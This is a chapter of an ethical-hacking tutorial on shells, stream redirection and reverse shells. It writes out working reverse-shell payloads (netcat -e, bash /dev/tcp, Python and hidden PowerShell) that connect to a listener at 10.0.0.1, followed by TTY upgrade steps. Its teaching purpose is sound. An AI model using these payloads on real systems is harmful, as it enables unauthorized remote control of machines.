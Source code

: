 # Shells

Although there are graphical user interface \(GUI\) based applications that perform a large number of the functions involved in ethical hacking, you will end up spending a great deal of time typing commands at a command line prompt in a “shell”. The shell itself is a program that accepts commands to interact with the operating system of the computer and other programs. There are a variety of shells with the two most common shells on Linux being the Bourne shell or “sh” and the Bourne again shell “bash”. On Apple’s macOS the default shell now in the terminal program is the “zsh”. On Windows, there are a variety of command-line programs. There is the original command program “cmd.exe”, “powershell.exe” which is the PowerShell interpreter and the Linux Terminal which interfaces with the Windows Subsystem for Linux \(WSL\). Microsoft has also released an Open Source Windows Terminal.

An important consideration for our purposes is the way shells handle input, output and errors. All programs communicate over the communication channels, referred to as the standard streams stdin \(standard in\), stdout \(standard out\) and stderr \(standard error\). As with all things on Linux, these streams are treated as files and have a number that identifies them, the file descriptor. In the case of the standard streams, the file descriptors \(fd\) are:

```text
stdin  0
stdout 1
stderr 2
```

Theses streams can be redirected by using the “&gt;” notation. For example, to redirect output and error messages to a single file, you can use the command:

`ls 2>&1 output.txt`

Likewise, stdin can be redirected by using the “&lt;” redirection symbol. A trivial example is using “cat” to display the contents of a file hello.txt which contains “hello”

```bash
┌─[✗]─[rin@parrot]─[~/]
└──╼ $cat < hello.txt
hello
```

Other than being a convenience, the ability to redirect the standard streams becomes important when trying to run a shell on a remote machine, something that is often the key of gaining control over a machine. Since the standard streams can be redirected, they can be redirected over network sockets that transport the data over a network. The idea is depicted in the following diagram:

![Principles of a remote shell redirecting stdin, stdout and stderror over a network socket](../.gitbook/assets/0%20%282%29.png)

This entire process is made simpler through the use of a program called Netcat that can handle the IO redirection for a program over a network. In what is called a “reverse shell”, you start a Netcat session on a local machine to listen for incoming connections:

`nc -lvnp 6001`

This tells netcat to listen \(-l\) on port \(-p\) 6001 \(any number port that is not being used\) on all IP addresses for incoming connections \(-v is for verbose output, -n is for no DNS\). On the target machine, you can run:

`nc <listen machine IP> 6001 -e /bin/bash`

This will execute bash and send all IO to the listening machine.

An alternative to reverse shells are “bind shells”. In this case the process listens on the attacking machine and the attacker initiates the connection from the attacking machine. The commands are the same but reversed.

Netcat is one tool to create a reverse shell. There are numerous other ways of achieving the same result of handling the standard streams. Another common and useful way of sending a reverse shell is by using built in networking functions of bash.

`bash -i >& /dev/tcp/10.0.0.1/6001 0>&1`

Although this looks complicated, it is running a bash shell in interactive mode \(-i\) and redirecting stdout and stderr \(&gt;&\) to a socket that will connect to the address and port specified \(/dev/tcp/10.0.0.1/6001\). The final redirection command \(0&gt;&1\) redirects stdin to the same file as stdout i.e. the socket.

At the other end, you can still use Netcat in listening mode to handle the incoming connection.

There are a range of ways of running reverse shells in different languages listed on sites like PayloadsAllTheThings[\[1\]](shells.md). An example of a reverse shell written in Python is

```bash
python3 -c 'import socket,subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",6001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Expanded, the code looks like this:

```python
import socket,subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",6001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

The code essentially replicates the process of making the bash socket connection you saw earlier. It creates a socket u and connects to the listener v. It redirects the stdin, stdout and stderror to the socket w and then makes then runs the bash command x. It then gets all of the standard streams using the socket and finally starts an interactive shell.

The code essentially replicates the process you saw above with the bash socket connection. It creates a socket and connects to the listener. It then gets all of the standard streams using the socket and finally starts an interactive shell.

## Reverse shells on Windows

The principles of reverse shells work with Windows as well but you don’t have the ease of having bash readily available. There are Windows' versions of Netcat and so it is possible to do a reverse shell by simply specifying cmd.exe or powershell.exe as the command to execute when using it. It is also possible, as in the Python example above, to run a reverse shell written in PowerShell as follows:

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",6001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

When the code passed to powershell.exe's command argument \(-Command\) is expanded, it looks like this:

```python
New-Object System.Net.Sockets.TCPClient("10.0.0.1",6001)
$stream = $client.GetStream()
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
}
$client.Close()
```

The script creates a socket to communicate with the attacker's listener u, creates a buffer to read v from that socket which will be commands sent by the attacker w, executes the commands sent by the attacker x and gets the response and then writes the response back to the attacker y.

As with all things Windows, this is slightly more complicated than the Linux versions but functional, nonetheless. Another alternative is to use a “Meterpreter” shell that is designed to work with the pentesting framework Metasploit which you will discuss shortly.

## Upgrading Remote Shells

The shells obtained by the methods outlined sometimes are less than functional because they do not result in a full ‘TTY’ terminal. TTY stands for teletype and is derived from the early electromagnetic typewriters that were used in telegraphy and then to communicate with mainframes and minicomputers. When you open a terminal on a Mac or on Linux, the terminal software is running a pseudo teletype \(PTY\) which handles getting input from the keyboard and passing it to a TTY driver which eventually passes that data to which ever shell program you are running. The terminal handles things like arrow keys and key sequences like "control + w" which will erase a word, "control + c" which will kill the last command you ran. If you are not running a proper TTY, you won't be able to use arrow keys and "CTL+c" will kill the shell you are running and not the last command. Also using an editor like vi will be difficult.

Shells can be upgraded by using the pty library in python:

```bash
python3 -c ‘import pty;pty.spawn(“/bin/bash”);’
```

Then typing CTL+z to background the process and typing

```bash
stty raw -echo
fg
hit enter key
hit enter key
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

